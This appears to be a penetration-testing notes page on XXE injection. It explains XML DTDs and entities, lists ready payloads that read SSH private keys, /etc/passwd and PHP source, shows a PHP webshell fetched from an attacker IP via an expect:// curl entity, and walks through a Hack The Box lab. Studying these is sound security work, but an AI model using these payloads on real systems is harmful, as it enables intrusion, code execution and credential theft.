


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# XXE


**XML External Entity (XXE) injection** is a security vulnerability where an attacker exploits an XML parser to include or reference external entities. This can lead to unauthorized access to files, server-side data, or internal systems, and can potentially expose sensitive information or cause denial-of-service attacks.


## General Information

### XML

**Extensible Markup Language (XML)** is focused on the storage and transportation of data and its key compoments are depicted below (Figure 1).

<figure><figcaption><p>Figure 1: The key components of an XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_syntax.asp">here</a>).</p></figcaption></figure>

If we need to use the XML-specific characters within an XML document they must be replaced with their corresponding entity references.

| XML reserved character | Entiry reference |
| ---------------------- | ---------------- |
| `<`                    | `&lt;`           |
| `>`                    | `&gt;`           |
| `&`                    | `&amp;`          |
| `'`                    | `&apos;`         |
| `"`                    | `&quot;`         |

What we are mostly interesting in from an attacker's POV is the [**XML Document Type Definition (DTD)**](https://www.w3schools.com/xml/xml\_dtd\_intro.asp) which allows the validation of an XML document against a pre-defined doc structure. The DTD can be placed within the XML doc itself (Figure 2), imported from an external file (Figure 3.1), or referenced through a URL (Figure 3.2).

<div>

<figure><figcaption><p>Figure 2: An example of a DTD placed within the XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

 

<figure><figcaption><p>Figure 3: A DTD imported from an external file (1) and a URL (2) (images adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

</div>

Within DTDs we can define **entities** (XML variables) using the `ENTITY` keyword. We can define them either **internally** (followed by the entity name and its value) or **externally** (followed by the `SYSTEM` keyword and its path).

```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

## Payloads

### RCE

Look for SSH private keys.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///home/kali/.ssh/id_rsa">
]>
```

If the `PHP://expect` filter is installed (it's not by default) and the output is reflected.

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://whoami'">
]>
```

Fetch a webshell.



```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```



```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```



### LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

### Source Code

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Example: XXE to LFI


The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;


The checkout process is sending data in XML format (Figure 4).

<figure><figcaption><p>Figure 4: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we also confirm this (Figure 5).

<figure><figcaption><p>Figure 5: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 6).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><figcaption><p>Figure 6: LFI via XXE.</p></figcaption></figure>

In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive file.

## Resources














